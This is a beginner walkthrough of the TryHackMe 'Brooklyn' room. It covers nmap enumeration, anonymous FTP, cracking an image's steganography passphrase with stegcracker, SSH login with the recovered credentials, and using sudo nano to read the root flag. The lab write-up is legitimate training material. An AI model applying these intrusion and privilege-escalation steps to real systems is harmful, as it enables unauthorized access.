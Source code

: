 ```yaml
---
title: TryHackMe - brooklyn
author: Bonface
date: 2024-04-18 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - nmap
  - privesc
  - ftp
  - ssh
  - http
  - stenography
  - SUID
image:
  path: /assets/img/try%20hack%20me%20/Easy/Brooklyn/0.jpeg
  alt: brooklyn
---
```


# Brooklyn

This room is aimed for beginner level hackers but anyone can try to hack this box.  
There are two main intended ways to root the box.  


# Tasks
- Read the User and root flag.  

# nmap

## ip = `10.10.36.221`

## Command 
```sh

 nmap -sV -sC -A -v 10.10.36.221 |tee nmap.txt
```
## Results
```sh
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r-- 1 0 0
119 May 17 2020 note_to_jake.txt
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.8.172.59
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| 256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_ 256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site does not have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# ftp_21
Has `anonymous` log in allowed and has a text file in it.  
 ![](/assets/img/try%20hack%20me%20/Easy/Brooklyn/1.png)
 
## Details
![](/assets/img/try%20hack%20me%20/Easy/Brooklyn/2.png)

Two users  
- `Jake` = has a weak password  
- `holt` =Looks like he has some privileges   

# http_80

## To Do list
- visit he site
- View the source code
- visit robots.txt
- run gobuster

The site has an image and the source code tells us something to do with stenography.  
**![](/assets/img/try%20hack%20me%20/Easy/Brooklyn/2.png)

Download the image.  
Use the following command to crack the image passphrase.  
```sh
stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt 
```
![](/assets/img/try%20hack%20me%20/Easy/Brooklyn/4.png)

From This we get  
![](/assets/img/try%20hack%20me%20/Easy/Brooklyn/5.png)

- user = `holt`
- password = `fluffydog12@ninenine`

# ssh_22

## Details

- users = `jake` and `holt`
- port 22 open
- Password for `holt` = `fluffydog12@ninenine`


Lets try ssh to holt using the following info

## ssh login
```sh
	ssh holt@10.10.36.221	
	#password = fluffydog12@ninenine
```  
![](/assets/img/try%20hack%20me%20/Easy/Brooklyn/6.png)

# Privilege Escalation

## To Do List
- sudo -l  
- cat /etc/crontab  

![](/assets/img/try%20hack%20me%20/Easy/Brooklyn/7.png)
## sudo -l
We get that we can run `/bin/nano` with root privileges without a password.  
I will try to read the root flag since i have the flag name format from user .txt.  
```sh
 	sudo /bin/nano /root/root.txt
 ```
![](/assets/img/try%20hack%20me%20/Easy/Brooklyn/8.png)
 